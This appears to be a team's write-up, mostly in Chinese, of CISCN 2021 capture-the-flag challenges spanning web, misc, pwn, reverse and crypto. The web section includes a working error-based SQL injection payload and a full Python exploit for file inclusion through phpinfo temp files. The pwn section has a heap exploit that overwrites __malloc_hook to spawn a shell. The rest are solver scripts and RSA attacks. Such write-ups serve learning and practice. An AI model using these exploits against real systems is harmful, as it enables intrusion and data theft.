

Ciscn 2021

<!-- more -->

## 队伍情况

队伍名称：S3C_2021

---

## WEB

### easy_sql

sql注入，sqlmap跑


根据log得知库名security


表名users，flag


payload：

```sql
uname=')+AND+EXTRACTVALUE(4078,CONCAT(0x5c,0x717a7a7671,(select+*+from+(select+*+from+flag+as+a+join+flag+as+b+using(no,id))+as+c),0x717a6a7871))--+&passwd=1&Submit=%E7%99%BB%E5%BD%95
```

同表查询得到列名id,no,200e6beb-a706-473f-add2-29e877c6ce25

最终


Flag:

```
CISCN{63zs0-zMP27-bhZDu-kIEv3-AvlHh-}
```


---

### easy_source

原题：https://r0yanx.com/2020/10/28/fslh-writeup/

扫目录发现`.index.php.swo`

可以利用 PHP 内置类中的 `ReflectionMethod` 来读取 `User` 类里面各个函数的注释

payload：

```
./?rc=ReflectionMethod&ra=User&rb=q&rd=getDocComment
```


Flag:

```
CISCN{Ak4Z6-6GU0a-fAz0n-OTdYy-KDq4Q-}
```


---

### middle_source

扫目录发现`.listing`

访问得到`you_can_seeeeeeee_me.php`，给了phpinfo

根据源码发现

`$_POST["field"];`和`echo $$field;`有出入

根据vulhub一个利用phpinfo进行文件包含的漏洞，改一下exp直接打

https://github.com/vulhub/vulhub/blob/master/php/inclusion/README.zh-cn.md

exp:

```python
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    # PAYLOAD = """%s\r
    # <?php var_dump(scandir('/etc/ceffgbbgcd/chffbdjbag/cjdieddjcc/cajjfieifd/ajdfdccjdj/'));?>\r""" % TAG
    PAYLOAD="""%s\r
<?php var_dump(file_get_contents('/etc/ceffgbbgcd/chffbdjbag/cjdieddjcc/cajjfieifd/ajdfdccjdj/fl444444g'));?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="123"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714""" % PAYLOAD
    padding="G" * 5000
    REQ1="""POST /?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=1; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script  
    LFIREQ="""POST / HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
Content-Type: application/x-www-form-urlencoded
Content-Length: %s\r
\r
%s
"""
    #print(REQ1)
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None
    fn="cf=../../../../../..{}".format(fn)
    #print(fn)
    s2.send(lfireq % (host,len(fn),fn))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        print(d)
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it!"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

跑出结果





flag位置：`/etc/ceffgbbgcd/chffbdjbag/cjdieddjcc/cajjfieifd/ajdfdccjdj/fl444444g`

Flag:

```
CISCN{BmLDI-8WFso-KZGN9-XObp3-sjSOf-}
```


---

## MISC

### tiny traffic

流量包分析


发现三个关键部分

全部导出看看，解压`flag_wrapper`得到`CISCN{}`


利用脚本解br发现proto3内容

```python
# coding=utf-8
import brotli
file = open("./test.br", "rb").read()
print(type(file))
content = brotli.decompress(file)
print(content)
with open("test.txt","bw") as f:
    f.write(content)
```


导出`secret`内容如下


由此应该是用proto3协议来解密

根据教程https://www.cnblogs.com/luoxn28/p/5303517.html

安装环境后用其自带的decode方法，用test文件规定的解密规则将处理过的`secret`进行解密


有用的部分在`PBResponse`

最后拼接flag

```python
hex(15100450)[2:]+"e2345"+"7889b0"+hex(16453958)[2:]+"d172a38dc"
```

Flag:

```
CISCN{e66a22e23457889b0fb1146d172a38dc}
```


---

### running_pixel

下载为gif，Photoshop打开发现有几百帧，仔细观察发现每帧上有奇怪像素点，RGB值为(233,233,233)


利用convert进行抽帧

```sh
convert ./running_pixel.gif ./output/out%05d.png
```

把每张图RGB(233,233,233)像素的坐标提取出来放文档里

```python
# coding=utf-8
import os
path = "./output/"
files = os.listdir(path)


from PIL import Image
width = 400
height = 400


def get_rgb(img):
    pixel = img.load()
    coordinates = []
    out_file = open("./list.txt", "a+")
    for x in range(width):
        for y in range(height):
            r, g ,b = pixel[x, y]
            if r == g == b == 233:
                coordinate = str(x) + ", " + str(y)

                out_file.write(coordinate + "\n")
                # print(r, g, b)

    return coordinates

  
def get_files(file):
    img = Image.open(path + file, "r").convert('RGB')
    return img

  
if __name__ == '__main__':
    for pic_file in files:
        pic = get_files(pic_file)
        coors = get_rgb(pic)
```

得到所有像素点后画图，使用现成脚本

```python
# coding=utf-8
from PIL import Image, ImageDraw
flag_image = Image.new('RGB',(400,400),(0,0,0))
f = open('list.txt')

draw = ImageDraw.Draw(flag_image)


for line in f.readlines():
    point = line.split()
    flag_image.putpixel([int(point[0]),int(point[1])],(255,255,255))
f.close()
flag_image.save("./flag.png")
```

得到如下图


纯手动一点一点慢慢拼出了flag


Flag:

```
CISCN{12504d0f-9de1-4b00-87a5-a5fdd0986a00}
```

### robot

`strings cap.pcapng`可以看到有坐标轴，坐标轴为三维坐标，但由于z轴大多数为0，所以可以用二维画图，


直接用上面的脚本：

```python
# coding=utf-8
from PIL import Image, ImageDraw
flag_image = Image.new('RGB',(400,400),(0,0,0))
f = open('zuobiao.txt')

draw = ImageDraw.Draw(flag_image)

for line in f.readlines():
    point = line.split(',')
    flag_image.putpixel([int(point[0]),int(point[1])],(255,255,255))
f.close()
flag_image.save("./flag.png")
```

得到图片：


md5加密之后就得到flag：CISCN{d4f1fb80bc11ffd722861367747c0f10}

## pwn

### longlywolf

exp：

```python
from pwn import *
from LibcSearcher import *
import time, sys, base64

context.os = 'linux'
context.arch = 'amd64'
context.log_level = 'debug'

p = process('./lonelywolf')
#p = remote('127.0.0.1',12345)
binary = ELF('./lonelywolf')
libc = binary.libc

def add(size):
    p.sendlineafter('Your choice: ', '1')
    p.sendlineafter('Index: ', str(0))
    p.sendlineafter('Size: ', str(size))

def edit(content):
    p.sendlineafter('Your choice: ', '2')
    p.sendlineafter('Index: ', str(0))
    p.sendlineafter('Content: ', content)

def show():
    p.sendlineafter('Your choice: ', '3')
    p.sendlineafter('Index: ', str(0))

def free():
    p.sendlineafter('Your choice: ', '4')
    p.sendlineafter('Index: ', str(0))

add(0x78)
add(0x28)
payload = p64(0)*3 + p64(0x521) + p64(0)
edit(payload)
add(0x78)

free() 
payload = p64(0)*2
edit(payload)
free()

add(0x28)  
for i in range(0x10):
    add(0x48)
add(0x48)
add(0x78)
edit('')
add(0x78)
add(0x78)

free()
show()

p.recvuntil('Content: ')
addr = u64(p.recv(6).ljust(8, '\x00'))
libc_base = addr - libc.sym['__malloc_hook'] - 0x70
malloc_hook = libc_base + libc.sym['__malloc_hook']
one = [0x4f3d5,0x4f432,0x10a41c]
one_gadget = libc_base + one[2]
print('malloc_hook', hex(malloc_hook))

add(0x18)  
free()
edit(p64(0)*2)
free()
add(0x18)
edit(p64(malloc_hook))
add(0x18)
add(0x18)
edit(p64(one_gadget))

add(0x78)

p.interactive()
```

## Re

### glass

```python
key = [0xa3,0x1a,0xe3,0x69,0x2f,0xbb,0x1a,0x84,0x65,0xc2,0xad,0xad,0x9e,0x96,0x5,0x2,0x1f,0x8e,0x36,0x4f,0xe1,0xeb,0xaf,0xf0,0xea,0xc4,0xa8,0x2d,0x42,0xc7,0x6e,0x3f,0xb0,0xd3,0xcc,0x78,0xf9,0x98,0x3f]
num = '12345678'
number = []

for i in range(256):
    number.append(i)

a = 0
for i in range(256):
    b = number[i]
    a = (a + b + ord(num[i%8])) % 256
    number[i] = number[a]
    number[a] = b

for i in range(len(key)):
    key[i] = key[i] ^ ord(num[i%8])

for i in range(len(key)//3):
    key[3*i+1] = key[3*i+1] ^ key[3*i]
    key[3*i+2] = key[3*i+1] ^ key[3*i+2]
    key[3*i] = key[3*i+2] ^ key[3*i]
 
a = 0
c = 0
for i in range(39):
    a = (a+1) % 256
    b = number[a]
    c = (c + b) % 256
    number[a] = number[c]
    number[c] = b
    key[i] ^= number[(b + number[a]) % 256]

for i in range(len(key)):
    print(chr(key[i]),end='')
```

### babybc

用到 LLVM，再IDA打开

两个函数，写了各种限制

```
横
row 0001 1000 2001 0000 1010
map[0][3] > map[0][4]
map[1][0] > map[1][1]
map[2][0] < map[2][1]
map[2][3] > map[2][4]
map[4][0] > map[4][1]
map[4][2] > map[4][3]

纵
col 00202 00000 00010 01001
map[0][2] > map[1][2]
map[0][4] > map[1][4]
map[2][3] < map[3][3]
map[3][1] < map[4][1]
map[3][4] < map[4][3]
```

exp：

```python
num1 = []
num2 = []
num3 = []
num4 = []
num5 = []
#################################
for i1 in range(1,6):
    for i2 in range(1,6):
        if(i2 == i1):
            continue
        else:
            for i3 in range(1,6):
                if(i3 == i1 or i3 == i2 or i3 == 4):
                    continue
                else:
                    for i4 in range(1,6):
                        if(i4 == i1 or i4 == i2 or i4 == i3  or i4 == 3):
                            continue
                        else:
                            for i5 in range(1,6):
                                if(i5 == i1 or i5 == i2 or i5 == i3 or i5 ==i4 or i4 <= i5):
                                    continue
                                else:
                                    index = []
                                    index.append(i1)
                                    index.append(i2)
                                    index.append(i3)
                                    index.append(i4)
                                    index.append(i5)
                                    num1.append(index)
#################################
for i1 in range(1,6):
    for i2 in range(1,6):
        if (i2 == i1 or i2 >= i1 or i2 == 5):
            continue
        else:
            for i3 in range(1,6):
                if (i3 == i1 or i3 == i2 or i3 == 4):
                    continue
                else:
                    for i4 in range(1,6):
                        if (i4 == i1 or i4 == i2 or i4 == i3 or i4 == 3):
                            continue
                        else:
                            for i5 in range(1,6):
                                if (i5 == i1 or i5 == i2 or i5 == i3 or i5 ==i4):
                                    continue
                                else:
                                    index = []
                                    index.append(i1)
                                    index.append(i2)
                                    index.append(i3)
                                    index.append(i4)
                                    index.append(i5)
                                    num2.append(index)
#################################
for i1 in range(1,6):
    for i2 in range(1,6):
        if (i2 == i1 or i1 >= i2):
            continue
        else:
            for i3 in range(1,6):
                if (i3 == i1 or i3 == i2 or i3 != 4):
                    continue
                else:
                    for i4 in range(1,6):
                        if (i4 == i1 or i4 == i2 or i4 == i3 or i4 >= 3 or i4 == 3):
                            continue
                        else:
                            for i5 in range(1,6):
                                if (i5 == i1 or i5 == i2 or i5 == i3 or i5 ==i4 or i5 >= i4):
                                    continue
                                else:
                                    index = []
                                    index.append(i1)
                                    index.append(i2)
                                    index.append(i3)
                                    index.append(i4)
                                    index.append(i5)
                                    num3.append(index)
#################################
for i1 in range(1,6):
    for i2 in range(1,6):
        if (i2 == i1):
            continue
        else:
            for i3 in range(1,6):
                if (i3 == i1 or i3 == i2 or i3 == 4):
                    continue
                else:
                    for i4 in range(1,6):
                        if (i4 == i1 or i4 == i2 or i4 == i3 or i4 != 3 or i4 == 2):
                            continue
                        else:
                            for i5 in range(1,6):
                                if (i5 == i1 or i5 == i2 or i5 == i3 or i5 ==i4):
                                    continue
                                else:
                                    index = []
                                    index.append(i1)
                                    index.append(i2)
                                    index.append(i3)
                                    index.append(i4)
                                    index.append(i5)
                                    num4.append(index)
#################################
for i1 in range(1,6):
    for i2 in range(1,6):
        if (i2 == i1 or i2 >= i1):
            continue
        else:
            for i3 in range(1,6):
                if (i3 == i1 or i3 == i2 or i3 == 4):
                    continue
                else:
                    for i4 in range(1,6):
                        if (i4 == i1 or i4 == i2 or i4 == i3 or i3 <= i4 or i4 == 3):
                            continue
                        else:
                            for i5 in range(1,6):
                                if (i5 == i1 or i5 == i2 or i5 == i3 or i5 ==i4 or i5 == 1):
                                    continue
                                else:
                                    index = []
                                    index.append(i1)
                                    index.append(i2)
                                    index.append(i3)
                                    index.append(i4)
                                    index.append(i5)
                                    num5.append(index)
#################################
for i1 in num1:
    for i2 in num2:
        if (i1[2] <= i2[2] or i1[4] <= i2[4]):
            continue
        else:
            flag = 0
            for i in range(5):
                if (i2[i] == i1[i]):
                    flag = 1                                  
            if (flag == 1):
                continue
            else:
                for i3 in num3:
                    flag = 0
                    for i in range(5):
                        if (i3[i] == i1[i] or i3[i] == i2[i]):
                            flag = 1
                    if (flag == 1):
                        continue
                    else:
                        for i4 in num4:
                            flag = 0
                            for i in range(5):
                                if (i4[i] == i1[i] or i4[i] == i2[i] or i4[i] == i3[i]):
                                    flag = 1
                            if (flag == 1):
                                continue
                            else:
                                for i5 in num5:
                                    if (i4[1] >= i5[1] or i4[4] >= i5[4]):
                                        continue
                                    else:
                                        flag = 0
                                        for i in range(5):
                                            if (i5[i] == i1[i] or i5[i] == i2[i] or i5[i] == i3[i] or i5[i] == i4[i]):
                                                flag = 1
                                        if (flag == 1):
                                            continue
                                        print('========================')
                                        print(i1)
                                        print(i2)
                                        print(i3)
                                        print(i4)
                                        print(i5)
                                        print('========================')
#################################

```


[1, 4, 2, 5, 3]
[5, 3, 1, 4, 2]
[3, 5, 4, 2, 1]
[2, 1, 5, 3, 4]
[[4, 2, 3, 1, 5]

fill_number 会检查

```
map
00000
00000
04400
00030
00010
```

最后 md5(1425353142350212150442315,32) = 8a04b4597ad08b83211d3adfa1f61431

## Crypto

### rsa

```python
from gmpy2 import invert, iroot
from libnum import xgcd, invmod

#低解密指数攻击
n1=123814470394550598363280518848914546938137731026777975885846733672494493975703069760053867471836249473290828799962586855892685902902050630018312939010564945676699712246249820341712155938398068732866646422826619477180434858148938235662092482058999079105450136181685141895955574548671667320167741641072330259009
e1=3
c1=19105765285510667553313898813498220212421177527647187802549913914263968945493144633390670605116251064550364704789358830072133349108808799075021540479815182657667763617178044110939458834654922540704196330451979349353031578518479199454480458137984734402248011464467312753683234543319955893
i = 0
while True:
    if iroot(c1 + i * n1, 3)[1] == True:
        print iroot(c1 + i * n1, 3)
        break
    i += 1

#共模攻击
import time
import gmpy2
n = 111381961169589927896512557754289420474877632607334685306667977794938824018345795836303161492076539375959731633270626091498843936401996648820451019811592594528673182109109991384472979198906744569181673282663323892346854520052840694924830064546269187849702880332522636682366270177489467478933966884097824069977
e = [17,65537]
c = [54995751387258798791895413216172284653407054079765769704170763023830130981480272943338445245689293729308200574217959018462512790523622252479258419498858307898118907076773470253533344877959508766285730509067829684427375759345623701605997067135659404296663877453758701010726561824951602615501078818914410959610,91290935267458356541959327381220067466104890455391103989639822855753797805354139741959957951983943146108552762756444475545250343766798220348240377590112854890482375744876016191773471853704014735936608436210153669829454288199838827646402742554134017280213707222338496271289894681312606239512924842845268366950]

time.clock()
c1 = c[0]
c2 = c[1]
e1 = e[0]
e2 = e[1]
s = gmpy2.gcdext(e1, e2)
s1 = s[1]
s2 = s[2]
if s1 < 0:
    s1 = -s1
    c1 = gmpy2.invert(c1, n)
elif s2 < 0:
    s2 = -s2
    c2 = gmpy2.invert(c2, n)
m = pow(c1, s1, n) * pow(c2, s2, n) % n
print ' [-]m is:' + '{:x}'.format(int(m))
print '\n[!]Timer:', round(time.clock(),2), 's'
print '[!]All Done!'

#已知高位p攻击
"""
已知高位p，利用网上的sage脚本，获取p

n=113432930155033263769270712825121761080813952100666693606866355917116416984149165507231925180593860836255402950358327422447359200689537217528547623691586008952619063846801829802637448874451228957635707553980210685985215887107300416969549087293746310593988908287181025770739538992559714587375763131132963783147
p=7117286695925472918001071846973900342640107770214858928188419765628151478620236042882657992902
pbits = 512
kbits = pbits-p.nbits()
p=p<<kbits
print("upper %d bits (of %d bits) is given" % (pbits-kbits, pbits))
PR.<x> = PolynomialRing(Zmod(n))
f = x + p
x0 = f.small_roots(X=2^kbits, beta=0.4)[0]
print(p+x0)

out:
upper 312 bits (of 512 bits) is given
11437038763581010263116493983733546014403343859218003707512796706928880848035239990740428334091106443982769386517753703890002478698418549777553268906496423
"""
c4 = 59213696442373765895948702611659756779813897653022080905635545636905434038306468935283962686059037461940227618715695875589055593696352594630107082714757036815875497138523738695066811985036315624927897081153190329636864005133757096991035607918106529151451834369442313673849563635248465014289409374291381429646
e4 = 65537
N4 = 113432930155033263769270712825121761080813952100666693606866355917116416984149165507231925180593860836255402950358327422447359200689537217528547623691586008952619063846801829802637448874451228957635707553980210685985215887107300416969549087293746310593988908287181025770739538992559714587375763131132963783147

p = 11437038763581010263116493983733546014403343859218003707512796706928880848035239990740428334091106443982769386517753703890002478698418549777553268906496423
q = N4 // p
n = (p-1) * (q-1)
d = gmpy2.invert(e4, n)
m = pow(c4,d,N4)
print(hex(m))
print(hex(267334379257781603687613466720913534310764480084016847281446486946801530200295563483353634338157))
```

得到的16进制转md5即为flag值：


